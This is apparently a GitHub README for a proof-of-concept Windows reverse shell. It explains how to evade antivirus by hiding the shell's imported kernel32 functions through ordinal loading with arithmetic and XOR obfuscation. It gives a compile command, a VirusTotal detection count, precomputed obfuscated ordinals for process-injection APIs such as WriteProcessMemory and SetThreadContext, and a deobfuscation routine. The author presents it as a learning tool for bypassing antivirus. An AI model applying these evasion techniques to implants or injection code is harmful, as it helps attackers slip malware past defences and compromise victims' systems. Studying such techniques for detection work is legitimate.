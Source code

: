 # Proof of concept reverse shell with mixed boolean arithmetics
![](https://github.com/tanc7/mixedbooleanarithmeticspayload/raw/main/Screenshot%20from%202023-03-19%2018-55-09.png)

All I did was execute ordinal-loading using the MAKEINTRESOURCE macro. I took the ordinal, and added 4096 1's to it, and then subtracted 4096 1's to deobfuscate it.

5/69 detections Sun Mar 19 07:03:18 PM PDT 2023

https://www.virustotal.com/gui/file/ec9506794c9b622afdcc74e2c70b49020c0b2cebb4819d08d0ec6ceb5573339e/behavior

# Resources used

1. PE-Bear
2. Any IDE is fine
3. learn.microsoft.com

# Compile

`x86_64-w64-mingw32-g++ -lwsock32 -lws2_32 revshell.cpp`

# Why cant you compile it?

I don't want it flagged as malware on Github. Use this as a learning tool.

# Notes

This is not real "mixed boolean arithmetics". It's just arithmetics actually.

1. I did not use bitwise operators to further obfuscate my ordinals
2. I did not use more convoluted tricks like shifting the bits or rotating them
3. I kept it simple to demonstrate how to easily bypass antivirus

# Applying simple mixed boolean arithmetics to a example implant (ThreadContext Injection)

# Combination of IAT-hiding and ordinal load via mixed boolean arithmetics
Use multiples of 0x1000 to ordinal load these and XOR it back

1. XOR out the value to a multiple of 0x1000
2. Compute the value of that multiple in a for-loop
3. The final ordinal is resolved as the ordinals listed below
4. Remember these are functions from kernel32.dll

# (WriteProcessMemory) Remember that 99 is decimal, not hex, so #define XORKEY 99
0x637 + 0x2000 = 0x2637^99 = 0x2654
# (VirtualAllocEx)
0x5e3 + 0x2000 = 0x25e3^99 = 0x2580
# SetThreadContext
0x56f p/x (0x2000+0x56f)^99 = 0x250c
# SuspendThread
0x5a1 p/x (0x2000+0x5a1)^99 = 0x25c2
# GetThreadContext
0x30d p/x (0x2000+0x30d)^99 = 0x236e 
# SetThreadContext
0x56f p/x (0x2000+0x56f)^99 = 0x250c
# CreateToolhelp32Snapshot
0x108 p/x (0x2000+0x108)^99 = 0x216b

# Example deobfuscator before MAKEINTRESOURCE macro is used.
```
#define XORKEY 99

int deobfuscate(int x) {
    x ^= XORKEY;
    for (int i = 0; i < 0x2000; i++) {
        x -= 0x1;
    }
    return x;
}

```
